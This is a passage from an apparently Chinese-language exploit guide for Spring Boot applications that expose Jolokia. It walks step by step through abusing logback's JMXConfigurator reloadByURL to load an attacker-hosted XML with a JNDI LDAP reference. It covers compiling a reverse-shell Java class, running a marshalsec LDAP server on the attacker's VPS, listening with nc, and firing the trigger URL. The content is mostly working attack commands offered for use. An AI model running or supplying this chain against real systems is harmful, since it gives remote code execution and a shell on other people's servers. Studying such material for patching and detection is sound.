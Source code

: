 访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。

##### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```php
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `xml` 结尾的 `example.xml` 文件，内容如下：

```php
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```

##### 步骤三：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```php
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。

##### 步骤四：架设恶意 ldap 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```php
nc -lv 443
```

##### 步骤六：从外部 URL 地址加载日志配置文件

> 如果目标成功请求了example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

```php
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/example.xml
```
